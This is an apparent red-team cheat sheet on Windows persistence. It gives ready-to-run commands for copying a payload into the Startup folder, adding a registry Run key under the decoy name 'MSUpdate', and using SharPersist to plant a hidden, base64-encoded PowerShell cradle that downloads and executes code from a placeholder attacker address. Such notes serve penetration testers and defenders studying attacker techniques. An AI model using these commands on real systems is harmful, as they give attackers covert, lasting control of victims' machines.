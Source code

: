 # Host Persistence
* [User land](#User-land)
  * [Startup folder](#Startup-folder)
  * [Registry keys](#Registry-keys)
  * [Scheduled task](#Scheduled-task)
  * [Logon Scripts](#Logon-Scripts)
  * [Shortcut modifications](#Shortcut-modifications)
  * [Screensaver](#Screensaver)
  * [PowerShell Profile](#PowerShell-Profile)
  * [DLL Proxying/hijacking](#DLL-Proxying/hijacking)
  * [COM Proxying/hijacking](#COM-Proxying/hijacking)
  * [Microsoft Office Trusted Locations](#Microsoft-Office-Trusted-Locations)
* [Elevated](#Elevated)
  * [Service](#Service)
  * [Schtasks](#Schtasks2)
  * [WMI](#WMI)
  * [Just Enough Admin](#Just-Enough-Admin)

## Persistence
- Its important to implement a control mechanism in the payloads to stop multiple executions via for example mutex, file, event or something similar

## Userland
- Persistence methods for low privilege persistence

### Startup folder 
- Runs when they log in

#### Copy payload to startup folder
```
copy <PATH TO EXE> "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
```
- For cleanup delete the file again

#### SharpPersist
```
str='IEX ((new-object net.webclient).downloadstring("http://x.x.x.x/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <BASE64>" -f "UserEnvSetup" -m add
```

### Registry keys
- Run applications on boot
- There are more keys, read [Mitre](https://attack.mitre.org/techniques/T1547/001/)

#### Query and set reg key
- Can use `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` or `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`
```
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v MSUpdate /t REG_SZ /d <PATH TO EXE> /f
```
- Cleanup `reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v MSUpdate /f`
